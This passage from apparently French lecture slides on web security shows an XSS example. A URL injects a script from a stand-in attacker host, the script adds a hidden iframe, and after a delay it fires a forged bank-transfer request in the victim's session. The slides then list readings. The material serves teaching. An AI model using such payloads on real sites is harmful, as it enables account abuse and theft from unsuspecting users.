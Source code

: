 - `XMLHttpRequest`,
- iframes,
- formulaires cachés,
- `<audio>`, `<video>`, ...
- ...

</section>
<section>

## Autre exemple : abus d'identité

- <span class="att">L'attaquant</span> injecte le script dans une page
  vulnérable et le donne à la <span class="cli">victime</span>

~~~
http://bank.servane.org/?<script src="http://hacker.com/evil.js"></script>
~~~
{:.srv}

- Le script ajoute un `<iframe>` caché dans la page du <span
  class="srv">serveur</span>

~~~
document.write('<iframe name="hf" style="display:none"></iframe>');
~~~
{:.att}

- Après quelques secondes, le script génère une requête à une page
  sécurisée

~~~
function req() {
  window.frames.hf.location.href=
    'http://bank.servane.org/transfer?to=athanase&amount=10000';
}
setTimeout(req, 5000);
~~~
{:.javascript.att}

- La réponse à `transfer` est reçue dans l'iframe. <span
  class="cli">Clélie</span> ne s'est aperçue de rien.

</section>
<section>

## Lectures

- Un tutoriel : <http://excess-xss.com/>,
- Un autre
  [tutoriel par Google](http://www.google.com/about/appsecurity/learning/xss/),
- Code source des exemples : <https://github.com/defeo/aws-security>.
- The tangled web: <http://lcamtuf.coredump.cx/tangled/>,

## Outils
